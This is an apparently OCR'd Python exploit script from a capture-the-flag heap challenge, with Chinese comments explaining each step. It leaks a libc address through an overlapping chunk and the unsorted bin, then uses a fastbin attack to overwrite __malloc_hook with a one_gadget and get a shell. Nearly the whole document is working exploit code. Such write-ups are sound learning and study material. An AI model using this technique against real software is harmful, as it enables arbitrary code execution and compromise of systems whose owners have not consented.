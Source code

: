 ```python
add(0x10)#5

#------------------泄漏libc地址------------------------------------#
edit(0,p64(0)*3+p64(0xb1))#通过edit(0)来改变chunk1的大小，使其包裹chunk2
delete(1)
add(0xa0)#1   delete再add回来使为了改变结构体中的size值，因为show的长度是根据这个值来定的。
edit(1,p64(0)*3+p64(0x91))  #因为通过calloc申请回chunk1的所以chunk2被清零，我们要根据原来chunk2的内容恢复chunk2。，
delete(2)  #使得chunk2进入unsorted bin。free后chunk2的fd和bk就变成了main_arena+offset，包含在chunk1的内容中
show(1)     #那么我们打印chunk1的内容就能泄漏chunk2的fd
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) -0x3c4b78
malloc_hook =  libc_base + 3951376

#-----------------fastbin attack-------------------------------------#
delete(4)#释放使其进入fastbin
edit(3,p64(0)*7+p64(0x71)+p64(malloc_hook-0x23)) #通过堆块3的溢出修改已经被free的堆块4的fd指针为malloc_hook-0x23。这里算是个公式了，分配到这里才能通过错位构造出0x7f的size域。
add(0x68)#2    #fasbin attack。大佬这里标得到的是2好号堆块我不太懂，刚刚delete的是4号，那这个应该是4号，况且2号堆块不是在unsorted bin里吗？
add(0x68)#4    #这个堆块就分配到__malloc_hook周围了，下面编辑为one_gadget
one = [0xf1147,0xf02a4,0x4526a,0x45216]
one_gadget = libc_base + one[2]
edit(4,b'\x00'*0x13+p64(one_gadget)) #覆盖malloc_hook为one_gadget

add(0x10)

p.interactive() 
```